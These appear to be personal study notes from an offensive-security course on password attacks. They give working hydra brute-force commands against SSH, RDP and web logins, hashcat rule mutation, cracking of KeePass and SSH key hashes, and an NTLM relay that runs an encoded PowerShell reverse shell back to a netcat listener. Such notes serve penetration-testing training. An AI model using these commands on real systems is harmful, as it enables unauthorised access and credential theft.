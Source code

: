 #### SSH and RDP
```
kali@kali:~$ hydra -l george -P /usr/share/wordlists/rockyou.txt -s 2222 ssh://192.168.50.201
```

```
kali@kali:~$ hydra -L /usr/share/wordlists/dirb/others/names.txt -p "SuperS3cure1337#" rdp://192.168.50.202
```

#### HTTP POST Login Form

```
kali@kali:~$ hydra -l user -P /usr/share/wordlists/rockyou.txt -e ns 192.168.50.201 http-post-form "/index.php:fm_usr=user&fm_pwd=^PASS^:Login failed. Invalid"
```

##### Note: tell hydra to try username as password and to try null passwords as well ""-e ns" , Use -u to loop around users, not the passwords.!
#### Mutating Wordlists with hashcat rules

In **demo1.rule**, the rule functions are on the same line separated by a space. In this case, Hashcat will use them consecutively on each password of the wordlist. The result is that the first character of each password is capitalized AND a "1" is appended to each password.

In **demo2.rule** the rule functions are on separate lines. Hashcat interprets the second rule function, on the second line, as new rule. In this case, each rule is used separately, resulting in two mutated passwords for every password from the wordlist.

```
kali@kali:~/passwordattacks$ cat demo1.rule     
$1 c
       
kali@kali:~/passwordattacks$ hashcat -r demo1.rule --stdout demo.txt
Password1
Iloveyou1
Princess1
Rockyou1
Abc1231

kali@kali:~/passwordattacks$ cat demo2.rule   
$1
c

kali@kali:~/passwordattacks$ hashcat -r demo2.rule --stdout demo.txt
password1
Password
iloveyou1
Iloveyou
princess1
Princess
...
```

> Listing 16 - Using two rule functions separated by space and line

Good! We have adapted the **demo1.rule** rule file to two of the three password policies. Let's work on the third and add a special character. We'll start with "!", which is a very common special character.

Based on this assumption, we'll add **$!** to our rule file. Since we want all rule functions applied to every password, we need to specify the functions on the same line. Again, we will demonstrate this with two different rule files to stress the concept of combining rule functions. In the first rule file we'll add **\$!** to the end of the first rule. In the second rule file we'll add it at the beginning of the rule.

```
kali@kali:~/passwordattacks$ cat demo1.rule     
$1 c $!

kali@kali:~/passwordattacks$ hashcat -r demo1.rule --stdout demo.txt
Password1!
Iloveyou1!
Princess1!
Rockyou1!
Abc1231!

kali@kali:~/passwordattacks$ cat demo2.rule   
$! $1 c

kali@kali:~/passwordattacks$ hashcat -r demo2.rule --stdout demo.txt
Password!1
Iloveyou!1
Princess!1
Rockyou!1
Abc123!1
```

#### Cracking Password managers masterkeys

1. Look for keepass database files:

```
PS C:\Users\jason> Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
```
2. Convert the kdbx database file to john format
```
kali@kali:~/passwordattacks$ keepass2john Database.kdbx > keepass.hash   

kali@kali:~/passwordattacks$ cat keepass.hash   
Database:$keepass$*2*60*0*d74e29a727e9338717d27a7d457ba3486d20dec73a9db1a7fbc7a068c9aec6bd*04b0bfd787898d8dcd4d463ee768e55337ff001ddfac98c961219d942fb0cfba*5273cc73b9584fbd843d1ee309d2ba47*1dcad0a3e50f684510c5ab14e1eecbb63671acae14a77eff9aa319b63d71ddb9*17c3ebc9c4c3535689cb9cb501284203b7c66b0ae2fbf0c2763ee920277496c1
```
3. Remove the filename that's appended at the beginning of the file.:
After removing the "Database:" string the hash is in the correct format for Hashcat:

```
kali@kali:~/passwordattacks$ cat keepass.hash   
$keepass$*2*60*0*d74e29a727e9338717d27a7d457ba3486d20dec73a9db1a7fbc7a068c9aec6bd*04b0bfd787898d8dcd4d463ee768e...
```
4. Find the correct mode and crack it:
```
kali@kali:~/passwordattacks$ hashcat -m 13400 keepass.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/rockyou-30000.rule --force
hashcat (v6.2.5) starting
...
$keepass$*2*60*0*d74e29a727e9338717d27a7d457ba3486d20dec73a9db1a7fbc7a068c9aec6bd*04b0bfd787898d8dcd4d463ee768e55337ff001ddfac98c961219d942fb0cfba*5273cc73b9584fbd843d1ee309d2ba47*1dcad0a3e50f684510c5ab14e1eecbb63671acae14a77eff9aa319b63d71ddb9*17c3ebc9c4c3535689cb9cb501284203b7c66b0ae2fbf0c2763ee920277496c1:qwertyuiop123!
...
```

#### SSH Private Key Passphrase cracking
1. Convert the private key to john format:
```
kali@kali:~/passwordattacks$ ssh2john id_rsa > ssh.hash

kali@kali:~/passwordattacks$ cat ssh.hash
id_rsa:$sshng$6$16$7059e78a8d3764ea1e883fcdf592feb7$1894$6f70656e7373682d6b65792d7631000000000a6165733235362d6374720000000662637279707400000018000000107059e78a8d3764ea1e883fcdf592feb7000000100000000100000197000000077373682...
```
2. Find the correct mode and crack it using hashcat:
```
kali@kali:~/passwordattacks$ hashcat -m 22921 ssh.hash ssh.passwords -r ssh.rule --force
hashcat (v6.2.5) starting
...

Hashfile 'ssh.hash' on line 1 ($sshng...cfeadfb412288b183df308632$16$486): Token length exception
No hashes loaded.
...
```


#### NTLM Relaying
1. Setup the fake SMB server on kali that will listing for smb connections and will relay the auth to the target host
```
kali@kali:~$ impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.50.212 -c "powershell -enc JABjAGwAaQBlAG4AdA..." 
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation
...
[*] Protocol Client SMB loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client HTTPS loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server
[*] Setting up WCF Server
[*] Setting up RAW Server on port 6666

[*] Servers started, waiting for connections
```

Note: We'll use **--no-http-server** to disable the HTTP server since we are relaying an SMB connection and **-smb2support** to add support for _SMB2_.[3](https://portal.offsec.com/courses/pen-200/books-and-videos/modal/modules/password-attacks/working-with-password-hashes/relaying-net-ntlmv2#fn3) We'll also use **-t** to set the target to FILES02. Finally, we'll set our command with **-c**, which will be executed on the target system as the relayed user. We'll use a PowerShell reverse shell one-liner,[4](https://portal.offsec.com/courses/pen-200/books-and-videos/modal/modules/password-attacks/working-with-password-hashes/relaying-net-ntlmv2#fn4) which we'll base64-encode and execute with the **-enc** argument as we've done before in this course. We should note that the base64-encoded PowerShell reverse shell one-liner is shortened in the following listing, but it uses the IP of our Kali machine and port 8080 for the reverse shell to connect.

2. Next, we'll start a Netcat listener on port 8080 (in a new terminal tab) to catch the incoming reverse shell.

```
kali@kali:~$ nc -nvlp 8080 
listening on [any] 8080 ...
```

3. Force authentication to the kali server, could be somthing simple like running net view or dir 


#### Cracking Domain Cache credentials

To crack mscache with hashcat, it should be in the following format:
```
$DCC2$10240#username#hash
```

For example:
![[Pasted image 20231011222832.png]]

